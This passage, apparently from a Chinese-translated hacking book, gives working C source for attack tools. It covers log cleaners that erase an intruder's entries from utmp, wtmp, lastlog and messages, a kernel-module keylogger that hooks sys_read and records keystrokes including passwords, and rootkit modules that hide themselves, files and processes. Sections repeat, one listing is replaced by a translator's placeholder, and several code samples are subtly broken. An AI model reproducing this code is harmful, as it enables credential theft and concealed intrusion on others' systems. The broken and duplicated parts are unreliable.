简单删除被入侵系统中的所有日志文件似乎要容易得多；然而，只有最没有经验的破解者这样做，因为在这种情况下，管理员会迅速发现入侵事件。日志清理工具用于删除日志文件中与黑客操作相关的某些信息。这可以防止引起管理员的怀疑，并允许行为实施者在系统中保持隐身状态。

日志文件有两种类型：文本和二进制。文本日志文件中的信息通常以文本格式存储。二进制日志文件中的信息则以二进制格式存储。大多数 Linux 日志文件存储在 `/var/log` 目录下。

日志清理工具用于删除日志文件中的某些信息。以下是删除位于 `/var/log` 目录中的日志记录的几种方法：

- 使用 `memset()` 或 `bzero()` 函数覆盖日志。
- 使用 `cloak`、`zap` 或 `wipe` 等工具覆盖日志。
- 在内存中覆盖日志。

黑客清理日志文件是为了隐藏自己的足迹。这里有许多方法可以清理系统日志，例如：

- 使用内核模块来拦截系统调用（`syscall`）。
- 替换日志文件，使用某些特定的方法。

### 二进制日志文件的结构

二进制日志文件可以像普通文件一样处理。二进制日志文件的类型包括：

- `utmp`：存储当前登录信息。其标准位置是 `/var/run/utmp`。
- `wtmp`：存储登录历史。其标准位置是 `/var/log/wtmp`（或类似的格式）。
- `lastlog`：存储最后登录信息。其标准位置是 `/var/log/lastlog`。

可以使用 `utmpdump` 工具以人类可读的格式查看这些文件：

```
utmpdump /var/run/utmp
utmpdump /var/log/wtmp
utmpdump /var/log/lastlog
```

`utmpdump` 输出信息的行，每行由方括号内的字段组成。以下是一个示例：

```
[11422] [1/3] [root] [pts/3] [0.0.0.0]
Tue Jul 04 05:21:46 2006
```

第一个字段是会话标识，第二个字段是进程 ID (PID)。第三字段包含以下值：`~`、`bw`、字符或数字。这些标签的含义分别是：运行级别或系统重启、启动进程、TTY 以及伪终端 (PTY) 的字母/数字组合。第四字段可以为空或包含用户名、重启或运行级别。第五字段是主 TTY 或 PTY（如果这些信息可用）。第六字段是远程主机名。如果从本地主机登录，该字段为空。第七字段是远程系统的名称。第八个字段是记录创建的时间。

通过查看 `utmp` 或 `wtmp`，可以发现 `utmp` 和 `wtmp` 日志由一系列结构组成。这些结构对于所有的 `utmp`、`wtmp` 和 `btmp` 文件都是相同的，它们在 `utmp.h` 头文件中声明（见列表 19.1），位于 `/usr/include/bits` 目录。

# 列表 19.1. utmp 文件的结构


# 第五部分：本地攻击工具

```c
#define UT_LINESIZE 12
#define UT_NAMESIZE 32
#define UT_HOSTSIZE 256

struct utmp {
    short ut_type;        /* 登录类型 */
    pid_t ut_pid;         /* 登录进程的 ID */
    char ut_line[UT_LINESIZE]; /* 设备名称 (console, ttyxx) */
    char ut_id[4];        /* 来自 /etc/inittab 文件的标识符（通常是行号） */
    char ut_user[UT_NAMESIZE]; /* 用户名 */
    char ut_host[UT_HOSTSIZE]; /* 远程主机的名称或 IP 地址 */
    struct exit_status ut_exit; /* 标记为 DEAD_PROCESS 的进程退出状态 */
    long ut_session;      /* 会话 ID */
    struct timeval ut_tv; /* 记录的时间 */
    int32_t ut_addr_v6[4]; /* 网络字节序格式的远程主机 IP 地址（对于本地用户，该字段为 0） */
    char __unused[20];    /* 留供以后备用 */
};
```

```c
struct exit_status {
    short e_termination; /* 进程终止状态码 */
    short e_exit;        /* 进程退出状态码 */
};
```

```c
/* 为了向后兼容 */
#define ut_name    ut_user
#ifndef NO_UT_TIME
#define ut_time    ut_tv.tv_sec
#endif
#define ut_xtime   ut_tv.tv_sec
#define ut_addr    ut_addr_v6[0]
```

`lastlog` 结构定义在 `utmp.h` 头文件中（列表 19.2）。

## 19.2. lastlog 结构

```c
struct lastlog {
    time_t ll_time;               /* 时间戳 */
    char ll_line[UT_LINESIZE];    /* 设备名称（console, ttycox） */
    char ll_host[UT_HOSTSIZE];    /* 远程主机的 IP 地址或名称（本地用户为空） */
};
```

有一个独立的 `lastlog` 文件，但它通常只包含一行：`#include <utmp.h>;`，这意味着所有信息都在 `utmp` 文件中。

按照原则，`utmp` 和 `lastlog` 文件中的条目由创建它们的程序删除。此外，条目并没有被实际删除，而是清除了相应状态字段中的用户和主机字段，并将时间字段（`ut_time`）的值更改为注销时间。此外，在 `utmp` 和 `wtmp` 文件中，条目类型（`ut_type`）从 `USER_PROCESS` 更改为 `DEAD_PROCESS`。以下是从 `utmp.h` 头文件中提取的 `ut_type` 定义：

```c
#define EMPTY          0 /* 无有效的用户统计信息 */
#define RUN_LVL        1 /* 系统的运行级别 */
#define BOOT_TIME      2 /* 系统启动时间 */
#define NEW_TIME       3 /* 系统时钟改变后的时间 */
#define OLD_TIME       4 /* 系统时钟改变的时间 */
#define INIT_PROCESS   5 /* 由 init 进程创建的进程 */
#define LOGIN_PROCESS  6 /* 登录用户的会话首领进程 */
#define USER_PROCESS   7 /* 正常进程 */
#define DEAD_PROCESS   8 /* 已终止的进程 */
#define ACCOUNTING     9 /* 系统统计 */
```

某些 UNIX 系统使用扩展的 `utmp` 结构 `utpx`；相应的，这些系统中的日志文件命名为 `utmp`、`wtmp` 和 `btpx`。某些日志清理工具提供了清理这些日志的功能，但我们的工具不会这样做，我没有见过任何一个使用这些日志的 Linux 系统。然而，我发现了自己清理这些进程的能力，可以使用清理 `utmp`、`wtmp` 和 `btmp` 文件的示例程序作为指南。

使用 `upmp()` 和 `logwtmp()` 函数向 `wtmp` 文件添加新记录。还有一些用于处理 `utmp` 文件的特殊函数。例如，`setutent()` 函数将指针指向 `utmp` 文件的开头，`getutent()` 函数返回从文件中当前指针位置开始的某行，`getuid()` 函数从当前指针位置开始进行前向搜索，而 `putline()` 函数则将 `utmp` 结构写入 `utmp` 文件中。关于这些函数的更详细信息可以在它们相应的 man 页面中找到。然而，没有用于处理 `lastfile` 的特殊函数。因此，演示日志清理工具中没有使用特殊函数，仅使用了标准的 C 函数：`read()`、`write()` 等。这是几乎所有日志清理工具采取的方法。

## 19.2. 日志清理工具：版本一

本节描述了实现一个用零和空格覆盖日志信息的日志清理工具。这种方法的缺点是许多入侵检测系统会检查 `utmp`、`wtmp` 和 `lastfile` 是否存在零结构。因此，聪明的黑客使用基于第二种操作方法的日志清理工具（见第 19.3 节）。我只考虑第一种方法，因为有很多基于这种方法的日志清理工具。

日志清理工具的源代码名为 `logclean.c`，书中未给出。你可以在配套光盘的第 19 章目录下找到它。在这里，我将考虑它的关键方面。

我在源码中包含了 `log.h` 头文件 `#include <log.h>`。然而，如前，在 Linux 系统中并非强制使用此文件，因为它是指向 `utmp.h` 头文件的链接。我还定义了日志清理工具将清理的日志文件路径（尽管 `UTMP_FILE` 和 `WTMP_FILE` 路径已经在 `utmp.h` 文件中定义）。

```c
#define UTMP_FILE      "/var/run/utmp"
#define WTMP_FILE      "/var/run/wtmp"
#define BTMP_FILE      "/var/run/btmp"
#define LAST_FILE      "/var/run/lastlog"
#define MESSAGES_FILE  "/var/log/messages"
```

程序使用了三个主要函数：`deaduwmp()` 函数清理 `utmp`、`wtmp` 和 `btmp` 文件；`deadlastlog()` 函数清理 `lastlog`；`deadmessages()` 函数清理日志文件。

`deaduwmp()` 函数的源代码见列表 19.3。

### 19.3. deaduwmp() 函数

```c
deaduwmp(char *name_file, char *username, char *tty)
{
    struct utmp pos;
    int fd;

    if ((fd = open(name_file, O_RDWR)) == -1) {
        perror(name_file);
        return;
    }

    while (read(fd, &pos, sizeof(pos)) > 0) {
        if (strcmp(pos.ut_user, username) == 0 && strcmp(pos.ut_line, tty) == 0) {
            bzero((char *)&pos, sizeof(pos));
            if (lseek(fd, -sizeof(pos), SEEK_CUR) != -1) {
                write(fd, (char *)&pos, sizeof(pos));
            }
        }
    }
    close(fd);
}
```

`deaduwmp()` 函数接收要清理的日志文件名，以及用户名和 TTY。通过 `open()` 函数以读写模式打开日志文件。一旦匹配到用户名和 TTY，使用 `bzero()` 函数准备一个填充零的结构。通过 `lseek()` 函数将文件指针位于结构开头，使用 `write()` 函数写入该结构。

`lastlog` 结构中没有用户名字段，因此修改此文件需要与修改 `utmp`、`wtmp` 和 `btmp` 文件不同的方法。这个问题通过利用 `lastlog` 文件中所有记录按 UID 排序的事实得以解决。确切地说，`deadlastlog()` 函数通过 `getpwnam()` 函数的帮助找到对应于所需的用户名。清理定位的 `lastlog`。

### 19.4. deadlastlog() 函数

```c
deadlastlog(char *name_file, char *username)
{
    struct passwd *pwd;
    struct lastlog pos;
    int fd;

    if ((pwd = getpwnam(username)) != NULL) {
        if ((fd = open(name_file, O_RDWR)) == -1) {
            perror(name_file);
            return;
        }

        lseek(fd, (long)pwd->pw_uid * sizeof(struct lastlog), SEEK_SET);
        bzero((char *)&pos, sizeof(struct lastlog));
        write(fd, (char *)&pos, sizeof(struct lastlog));
        close(fd);
    }
}
```

### 19.5. deadmessages() 函数

```c
deadmessages(char *name_file, char *username, char *tty, char *ip, char *hostname)
{
    clear_info(name_file, username);
    clear_info(name_file, tty);

    if (ip != NULL) clear_info(name_file, ip);
    if (hostname != NULL) clear_info(name_file, hostname);
}
```

```c
int i;
char *pnnt;
char *token;
char blank[200];
```

```c
for (i = 0; i < 200; i++) blank[i] = ' ';
```

```c
if ((lin = fopen(name_file, "r+")) == 0) {
    perror(name_file);
    exit(-1);
}
```

```c
while (fgets(buffer, MAXBUFF, lin) != NULL) {
    if ((pnnt = strstr(buffer, info)) != 0) {
        fseek(lin, -strlen(pnnt), SEEK_SET);
        token = strtok(pnnt, " ");
        strncpy(token, blank, strlen(token));
        fputs(token, lin);
    }
}
```

```c
fclose(lin);
```

`clear_info()` 函数首先准备一个填充了 200 个空格字符的空缓冲区。然后以读写模式打开日志文件，并在循环中顺序读取其每一行。如果在字符串中发现了需要清理的信息，则会用空缓冲区中的空格将其覆盖。

清理器操作的其余部分应当从程序的源代码中清晰地看出。

## 19.3. 日志清理工具：版本二

在本节中，我将考虑基于第二种方法的日志清理器的实现，即使用临时文件来从日志文件中移除必要的条目。名为 `logclean2.c` 的日志清理器源代码未在书中给出。你可以在附带的 CD-ROM 的第五部分第 19 章目录中找到它。该程序还使用了三个主要函数：`uwtmp()` 函数用于清理 `wtmp` 和 `btmp` 文件；`lastlog()` 函数用于清理 `lastlog` 文件；`clean_messages()` 函数用于清理 `messages` 日志文件。然而，这些函数的工作方式与它们在上一个日志清理器中的名称不同。

在 `uwtmp()` 和 `clean_messages()` 函数中，使用了以下方法：以只读模式打开必要的日志文件，并创建一个名为 `ftmp` 的临时文件。在循环中从日志文件中顺序读取条目，并检查是否有需要清理的信息。包含这些信息的行被丢弃，而不包含这些信息的行则被写入 `ftmp` 文件。

### 列表 19.7. copy_tmp() 函数

```c
copy_tmp(char *name_file)
{
    char buffer[100];
    sprintf(buffer, "cat ftmp > %s; rm -f ftmp", name_file);
    printf("%s\n", buffer);
    if (system(buffer) < 0) {
        printf("Error!");
        exit(-1);
    }
}
```

该函数在许多方面与其上一节对应的函数相似，但在覆盖必要条目时没有使用 `bzero()` 函数，而是简单地用这些部分和零来替换信息：

```c
lseek(fd, (long)pwd->pw_uid * sizeof(struct lastlog), SEEK_SET);
pos.ll_time = 0;
strcpy(pos.ll_line, "");
strcpy(pos.ll_host, "");
write(fd, (char *)&pos, sizeof(struct lastlog));
```

之所以不使用临时文件删除 `lastlog` 文件中的必要条目，是因为从该文件中读取单个条目并不容易。

清理器操作的其余部分应当从程序的源代码中清晰地看出。

# 第 20 章：键盘记录器


键盘记录器从用户处秘密地拦截按键，并在将其传递给操作系统之前保存到文件中。黑客主要使用键盘记录器拦截登录名和密码，这些最终是用户为某些服务输入的任何内容。

一篇关于编写键盘记录器的优秀文章《Writing Linux Kernel Keylogger》发表在电子杂志 Phrack 的第 59 期上。它考虑了在 Linux 中拦截按键的不同方法，并展示了如何为 2.4.x 版本的内核实现一个 LKM 键盘记录器。我在这里不会重述该文章的任何材料，但我强烈建议你熟悉那篇文章，因为对于我正在考虑的 2.6.x 版本的内核编写 LKM 键盘记录器来说，它将是一个很好的基础。我的键盘记录器基于一个绰号为 mercenary 的黑客的键盘记录器，该器描述在文章“Kernel Based Keylogger”（http://packetstorms.org/UNIX/security/kernel.keylogger.txt）中。这个键盘记录器也是针对 2.4.x 内核的，因此我对其简化并为 2.6.x 内核重写了代码。

在 Linux shell 中，所有的本地或远程按键都必须通过 `sys_read` 系统调用处理；因此，干预该调用的操作使得拦截所有按键成为可能。可以使用 LKM 模块拦截并替换该调用。键盘记录器的源代码很长，所以我没有在书中提供全部。你可以在 `Part V/20` 目录中找到完整的源代码。这里我只考虑它的某些方面。

在 `init_module()` 函数中，系统调用 `read` 被替换为名为 `hacked_read` 的自定义函数。在 `cleanup_module()` 函数中，还原原始系统：

```c
int init_module(void) {
    find_sys_call_table();
    original_read = (void *)sys_call_table[NR_READ];
    sys_call_table[NR_READ] = (unsigned long)hacked_read;
    return 0;
}

void cleanup_module(void) {
    sys_call_table[NR_READ] = (unsigned long)original_read;
}
```

可以看出，在 `init_module()` 函数开头，有一个调用 `find_sys_call_table()` 来寻找 `sys_call_table` 的地址。对于 2.6.x 内核必须执行该过程。`hacked_read()` 自定义函数调用原始调用获取按键代码；此外，如果没有这个调用，系统将无法正常工作：

```c
int r;
r = original_read(fd, buf, count);
```

读取次数保存在变量 `r` 中，按键代码存储在 `buf` 缓冲区中。使用 `trace` 工具可以确定 `read()` 函数处理了一个按键（在下面的示例中，使用了 `strace` 命令）：


# 第20 章：键盘记录器

```bash
read(0, "1") = 1
write(2, "1") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "s") = 1
write(2, "s") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "m") = 1
write(2, "m") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "-") = 1
write(2, "-") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "1") = 1
write(2, "1") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "a") = 1
```


```c
write(2, "a") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "\r") = 1
write(2, "\n") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
```

接下来，`hacked_read` 函数检查 `buf` 缓冲区的内容并将其所有代码累积到 `logger_buffer` 缓冲区：

```c
static char logger_buffer[512];
strncat(logger_buffer, buf, 1);
```

在此过程中，特殊键 `<F1>`-`<F12>`、`<Home>`、`<End>`、箭头、`<Tab>` 等被替换为文本描述；例如，`<F6>` 代码将被替换为字符串 `"[F6]"`：

```c
if (buf[0] == 0x37)
  strcat(logger_buffer, "F6");
```

所有特殊键带有多字节代码，以 2 个字节的 `0x1b` 和 1 个字节的 `0x5b` 开头。可以使用相同的 `trace` 工具检查这一点：

```bash
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "\x1b") = 1 // <F1> 键被按下。
read(0, "\x5b") = 1
write(2, "\x07") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "\x41") = 1
write(2, "\x41") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "\x1b") = 1 // <F2> 键被按下。
read(0, "\x5b") = 1
read(0, "\x5b") = 1
write(2, "\x07") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
read(0, "\x42") = 1
write(2, "\x42") = 1
sigprocmask(SIG_BLOCK, NULL, 8) = 0
```

在这篇文章中，mercenary 给出了所有特殊键的代码：

+   **三字节键代码：**

    上箭头: `0x1b 0x5b 0x41`

    下箭头: `0x1b 0x5b 0x42`

    右箭头: `0x1b 0x5b 0x43`

    左箭头: `0x1b 0x5b 0x44`

    暂停(Pause): `0x1b 0x5b 0x50`

+   **四字节键代码：**

    F1: `0x1b 0x5b 0x5b 0x41`


## 第五部分：本地黑客工具

```
F2: 0x1b 0x5B 0x5B 0x42
F3: 0x1b 0x5B 0x5B 0x43
F4: 0x1b 0x5B 0x5B 0x44
F5: 0x1b 0x5B 0x5B 0x45
Ins: 0x1b 0x5B 0x32 0x7E
Home: 0x1b 0x5B 0x31 0x7E
PgUp: 0x1b 0x5B 0x35 0x7E
Del: 0x1b 0x5B 0x33 0x7E
End: 0x1b 0x5B 0x34 0x7E
PgDn: 0x1b 0x5B 0x36 0x7E
```

五字节键码：

```
F6: 0x1b 0x5B 0x31 0x7E
F7: 0x1b 0x5B 0x38 0x7E
F8: 0x1b 0x5B 0x39 0x7E
F9: 0x1b 0x5B 0x32 0x7E
F10: 0x1b 0x5B 0x35 0x7E
F11: 0x1b 0x5B 0x33 0x7E
F12: 0x1b 0x5B 0x34 0x7E
```

演示键将处理所有这些特殊键。

一旦输入了换行或回车，缓冲区的内容就会写入日志文件（即：一旦按下 `<Enter>` 键）。

```c
if (buf[0] == '\n') { // 回车？
    strncat(logger_buffer, "\n", 1); // 向缓冲区添加换行符
    sprintf(test_buffer, "%s", logger_buffer); // 拷贝到 test_buffer
    write_to_logfile(test_buffer); // 写入_buffer 的内容
    logger_buffer[0] = '\0'; // 到日志文件
    clear(logger_buffer); // 清空缓冲区
}
```

内容使用 `write_to_logfile()` 函数保存到日志文件中，如列表 20.1 所示。

### 列表 20.1. 将被窃取的按键保存到日志文件的函数

```c
int write_to_logfile(char *buffer)
{
    struct *file = NULL;
    mm_segment_t fs;
    int error, old_uid;

    old_uid = current_uid; // 如果用户不是 root，
    current_uid = 0; // 将用户变为 root 以避免
                       // 打开或创建
                       // 临时文件的问题。

    file = filp_open(LOGFILE, O_CREAT|APPEND, 00666);
    if (IS_ERROR(file)) {
        error = PTR_ERR(file);
        error = -EACCES;

        if (!IS_ISREG(file->f_dentry->d_inode->i_mode))
            goto out_err;

        error = -EIO;

        if (!file->f_op->write)
            goto out_err;

        error = 0;

        fs = get_fs();
        set_fs(KERNEL_DS);

        file->f_op->write(file, buffer, strlen(buffer), &file->f_pos);

        set_fs();
        filp_close(file, NULL);
    }

out:
    current_uid = old_uid; // 恢复原始用户标识符
    return error;

out_err:
    filp_close(file, NULL);
    goto out;
}
```

日志文件使用 `filp_open()` 内核函数打开，该函数返回一个指向文件结构的指针。记录程序使用了以下日志文件名和位置：

`#define LOGFILE "/tmp/log"`

`get_fs()` 和 `set_fs()` 函数用于将数据读取到位于内核而非用户空间的缓冲区中。

记录程序运行的其他方面可以从源代码中看出。

该记录程序被作为一个标准的 2.6 内核模块构建并安装（参见第 18 章）。别忘记在 makefile 中使用记录程序的正确名称：

`obj-m += keylogger.o`

你可以通过以下方式增强你的记录程序，例如保存时间戳、终端名称和编号，以及登录用户的用户标识。

遗憾的是，该记录程序有一个巨大的缺陷：它无法拦截使用如 `login` 和 `su` 等程序输入的密码词。然而，我注意到当 `Midnight Commander` 在单独的终端运行时，记录程序可以拦截这些密码。

我还没有弄清楚其中的原因。另一方面，记录程序在拦截 `ssh`、`telnet` 以及其他服务授权期间输入的密码没有问题。

以下是记录程序生成的文件示例片段：

```bash
ls
netstat
exit
```


## 第21章：Rootkits

### 21.1 隐藏自己

针对内核版本（2.0.x–2.4.x）的 Rootkits 使用由绰号为 Solar Designer 的黑客提出的技术，并在《Phrack》电子杂志第 52 期的《削弱 Linux 内核》文章中描述的方法来隐藏模块。该技术基于使用模块结构，该结构包含了关于模块的所有信息。该结构被 `init_module()` 系统调用使用，而该调用又被 `init_module()` 调用。要从列表中删除一个模块，只需要在内存中找到模块结构的地址，并将其 `name` 和 `refs` 字段置零即可。Solar Designer 发现模块结构可以隐藏在 `ebx`、`edi`、`esp` 等类似的寄存器中。你只需要猜它存储在哪个寄存器中即可。然而，错误的猜测可能会导致系统无法查看模块。因此，尽管在猜对寄存器的情况下，这种方法可以可靠地隐藏模块，但它是危险的。以下是实现该方法的源代码：

```c
int init_module()
  register struct *mp asm("ebx"); /* 包含模块结构地址的
  寄存器必须代替
  ebx 寄存器。 */
  *(char *) (mp->name) = 0;
  mp->size = 0;
  mp->ref = 0;
```

然而，这种方法在 2.6.x 内核将不起作用。事实上，你可以使用另一种方法，即列表 21.1 所示，它对许多其他内核版本也同样有效。`lsmod` 命令调用的函数可以使用 `trace` 工具来确定：

```bash
# lsmod
open("/proc/modules", O_RDONLY) = 6
read(6, "hide_module 2440 0 - Live 0x00db0",..., 1024) = 1024
write(1, "hide_module 2440 0 "...", 33) = 33
```

如你所示，`/proc/modules` 中的一行是通过 `read()` 函数读取的；然后该行通过 `write()` 函数显示在屏幕上。因此，模块只需拦截 `write` 或 `read` 调用，并检查是否执行了 `lsmod` 命令。如果是，则在缓冲区中查找模块名称。如果找到，则将控制权返回系统，导致 `lsmod` 命令的输出中没有该模块的信息。

然而，这种方法并不能通过简单的查看 `/proc/modules` 文件的内容来隐藏模块，该文件存储了所有加载模块的名称。你可以尝试在写入文件时进行类似的检查，并从输出文件中删除该模块的信息来解决这个问题。然而，这里的问题在于（312 第五部分：本地黑客工具），该文件可以通过不同的手段查看，例如，通过 `cat /proc/modules` 或 `dd if=/proc/modules bs=1` 命令，或者在 Midnight Commander 中查看。

**列表 21.1. 一个能够从 lsmod 中隐藏的内核模块 (hide_module.c)**

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

MODULE_LICENSE ("GPL");

/* 要隐藏的模块名称 */
#define MODULE_NAME "hide_module"

int (*orig_write)(int, const char *, size_t);
unsigned long* sys_call_table;

void find_sys_call_table(void)
{
    /* 第 18.2.2 节或 CD-ROM 上的源代码包含了
    find_sys_call_table() 函数的内容。 */
}

int new_write(int fd, const char *buf, size_t count)
{
    char *temp;
    int ret;

    /* 如果执行了 lsmod 命令， */
    /* 在内核空间分配内存并
    将缓冲区内容拷贝到那里 */
    if (!strcmp(current->comm,"lsmod"))
        temp = (char*)malloc(count + 1, GFP_KERNEL);
        copy_from_user(temp, buf, count);
        temp[count] = '\0'; /* 在任何情况下，都是行尾代码。 */

        /* 如果遇到模块的名称， */
        if (strchr(temp, MODULE_NAME) != NULL)
            kfree(temp); /* 释放堆中的缓冲区 */
            return count; /* 返回结果 */

    /* 执行原始函数调用 */
    ret = orig_write(fd, buf, count);
    return ret;
}

int init_module(void)
{
    find_sys_call_table();
    orig_write = (void*)sys_call_table[__NR_write];
    sys_call_table[__NR_write] = (unsigned long)new_write;
    return 0;
}

void cleanup_module(void)
{
    sys_call_table[__NR_write] = (unsigned long)orig_write;
}
```

### 21.2 隐藏目录

目录中的条目是通过 `getdents` 或 `getdents64` 系统调用读取的。具体的调用取决于内核版本，并可以像上一节一样使用 `strace` 来确定。`readdir()` 用于读取目录。`getdents64` 产生的结果以 `struct dirent` 列表的形式存储。该结构中的 `d_reclen` 和 `name` 字段感兴趣，它们持有条目长度和文件名。因此，要隐藏一个文件条目，只需要拦截 `getdents64` 调用，然后在生成的列表中找到相应的条目并将其删除。该模块的实现在列表 21.2 所示。在模块编译并加载到内核后，指定的文件将不会显示在 `ls` 命令的输出或 Midnight Commander 等文件管理器的输出中。然而，如果你知道隐藏文件的名称，你就可以执行它或对其进行任何其他操作（例如，复制）。

**列表 21.2. 一个隐藏文件的内核模块 (hide_file.c)**

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/dirent.h>
#include <linux/syscalls.h>

MODULE_LICENSE ("GPL");

/* 要隐藏的文件名称 */
#define FILE_NAME "hide_file"

int (*orig_getdents64)(unsigned int, struct linux_dirent64 *, unsigned int);
unsigned long* sys_call_table;

void find_sys_call_table(void)
{
    /* 第 18.2.2 节或 CD-ROM 上的源代码包含了
    find_sys_call_table() 函数的内容。 */
}

int new_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)
{
    int ret;
    struct linux_dirent64 *d, *prev = NULL;
    char *buf;

    ret = orig_getdents64(fd, dirp, count);
    if (ret <= 0)
        return ret;

    buf = (char *)dirp;
    d = dirp;

    while (ret > 0) {
        if (strcmp(d->d_name, FILE_NAME) == 0) {
            if (prev)
                prev->d_reclen += d->d_reclen;
            else
                memmove(buf, (char *)d + d->d_reclen, ret - d->d_reclen);
            ret -= d->d_reclen;
            break;
        }
        prev = d;
        d = (struct linux_dirent64 *)((char *)d + d->d_reclen);
        ret -= d->d_reclen;
    }
    return ret;
}

int init_module(void)
{
    find_sys_call_table();
    orig_getdents64 = (void*)sys_call_table[__NR_getdents64];
    sys_call_table[__NR_getdents64] = (unsigned long)new_getdents64;
    return 0;
}

void cleanup_module(void)
{
    sys_call_table[__NR_getdents64] = (unsigned long)orig_getdents64;
}
```

### 21.3 隐藏目录和进程

目录和进程可以使用相同的方法来隐藏。我从《Phrack》第 58 期的《Sub proc_root Quando Sumus（内核黑客进展）》文章中学习了这种方法。这种方法不需要你拦截系统调用。这是因为 Linux 中、设备和目录都可以被视为文件。每个“文件”在内核中由一个文件结构表示。文件结构的 `file_op` 字段指向 `file_operations` 结构，该结构存储了文件操作函数的指针，例如 `read()`、`write()`、`readdir()` 和 `ioctl()`。文件和 `file_operations` 结构的定义在 `/linux/fs.h` 头文件中。由于你需要隐藏目录，最方便的方法是替换 `file_operations` 结构中指向 `readdir()` 函数的指针，或者将其替换为 NULL（后者意味着该函数未实现）。`readdir()` 在 `file_operations` 结构中的定义如下：

```c
int (*readdir)(struct file *, void *, filldir_t);
```


## 第21章：Rootkits

### 21.1 系统调用表查找与写入拦截

```c
/* find_sys_call_table() 函数的内容。 */
}

int new_write(int fd, const char *buf, size_t count)
{
    char *temp;
    int ret;

    /* 如果执行了 lsmod 命令， */
    /* 在内核空间分配内存并将缓冲区内容拷贝到那里 */
    if (!strcmp(current->comm, "lsmod")) {
        temp = (char*)malloc(count + 1, GFP_KERNEL);
        copy_from_user(temp, buf, count);
        temp[count] = '\0'; /* 在任何情况下，都是行尾代码。 */

        /* 如果遇到模块的名称， */
        if (strchr(temp, MODULE_NAME) != NULL) {
            kfree(temp); /* 释放堆中的缓冲区 */
            return count; /* 返回结果 */
        }
    }

    /* 执行原始函数调用 */
    ret = orig_write(fd, buf, count);
    return ret;
}

int init_module(void)
{
    find_sys_call_table();
}
```

```c
orig_write = (void*)sys_call_table[__NR_write];
sys_call_table[__NR_write] = (unsigned long)new_write;
return 0;
```

```c
void cleanup_module(void)
{
    sys_call_table[__NR_write] = (unsigned long)orig_write;
}
```

### 21.2 隐藏目录

目录中的条目是通过 `getdents` 或 `getdents64` 系统调用读取的。具体的调用取决于内核版本，并可以像上一节一样使用 `strace` 来学习。`readdir()` 用于读取目录。`getdents64` 产生的结果以 `struct dirent` 列表的形式存储。该结构中的 `d_reclen` 和 `name` 字段感兴趣，它们持有条目长度和文件名。因此，要隐藏一个文件条目，只需要拦截 `getdents64` 调用，然后在生成的列表中找到相应的条目并将其删除。该模块的实现在列表 21.2 所示。在模块编译并加载到内核后，指定的文件将不会显示在 `ls` 命令的输出或 Midnight Commander 等文本编辑器的输出中。然而，如果你知道隐藏文件的名称，你就可以执行它或对其进行任何其他操作（例如，复制）。

**列表 21.2. 一个隐藏文件的内核模块 (hide_file.c)**

*(此处代码块已在译文中处理，为保持简洁，下文将翻译剩余文本)*

### 21.3 隐藏目录和进程

目录和进程可以使用相同的方法来隐藏。我从《Phrack》第 58 期的《Sub proc_root Quando Sumus（内核黑客进展）》文章中学习了这种方法。这种方法不需要你拦截系统调用。这是因为 Linux 中设备和目录都可以被视为文件。每个“文件”在内核中由一个文件结构表示。文件结构的 `file_op` 字段指向 `file_operations` 结构，该结构存储了文件操作函数的指针，例如 `read()`、`write()`、`readdir()` 和 `ioctl()`。文件和 `file_operations` 结构的定义在 `/linux/fs.h` 头文件中。由于你需要隐藏目录，最方便的方法是替换 `file_operations` 结构中指向 `readdir()` 函数的指针，或者将其替换为 NULL（后者意味着该函数未实现）。`readdir()` 在 `file_operations` 结构中的定义如下：

```c
int (*readdir)(struct file *, void *, filldir_t);
```

目录通过 `DIRECTORY_ROOT` 常量进行指定。要隐藏 `/proc` 文件系统中的目录，必须给该常量赋值 `/proc` 值；而要隐藏 `/proc` 系统之外的文件，可以指定 `/` 根目录。之所以指定不同的根目录是因为 `/proc` 是一个特殊文件系统，它存储在内存中，与硬盘无关。因此，如果打开了根目录，`/proc` 系统中的文件将无法被隐藏，反之亦然。

在模块中，被替换的不仅是 `readdir()` 函数的指针，还包括 `filldir()` 函数的指针（它是 `readdir()` 函数的第三个参数）。在替换后的 `filldir()` 函数中，会对要被 `readdir` 隐藏的项进行检查。如果匹配成功，该函数返回零，这使得 `readdir()` 函数跳过该目录。要隐藏的文件、目录或设备名称在 `DIRECTORY_HIDE` 常量的定义中指定。

在我的实验过程中，我确定目录名是以不带换行零的字符串形式存储的，而普通文件是以带有结尾零的形式存储的。因此，在模块中，字符串使用 `strncmp()` 函数进行比较。它只比较前几个字符，这使得可以将其传递用于比较一个没有终止符的字符串。

**列表 21.3. 用于隐藏目录和进程的内核模块 (hide_pid.c)**

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/init.h>
#include <net/sock.h>
```

```c
MODULE_LICENSE("GPL");

#define DIRECTORY_ROOT "proc" /* 根目录名称，文件、
目录或设备将在此
被隐藏 / */

#define DIRECTORY_HIDE "3774" /* 要隐藏的目录、文件或设备
的名称 / */

typedef int (*readdir_t)(struct file *, void *, filldir_t);

readdir_t orig_proc_readdir = NULL;
filldir_t proc_filldir = NULL;
```

```c
int new_filldir(void *buf, const char *name, int nlen, loff_t off,
                ino_t ino, unsigned int x)
{
    if (strncmp(name, DIRECTORY_HIDE, strlen(DIRECTORY_HIDE)) == 0)
        return 0;
    return proc_filldir(buf, name, nlen, off, ino, x);
}

int our_proc_readdir(struct file *fp, void *buf, filldir_t filldir)
{
    int r = 0;
    proc_filldir = filldir;
    r = orig_proc_readdir(fp, buf, new_filldir);
    return r;
}
```

```c
int patch_vfs(readdir_t *orig_readdir, readdir_t new_readdir)
{
    struct file *file;
    if ((file = filp_open(DIRECTORY_ROOT, O_RDONLY, 0)) == NULL) {
        return -1;
    }
    *orig_readdir = file->f_op->readdir;
    file->f_op->readdir = new_readdir;
    filp_close(file, 0);
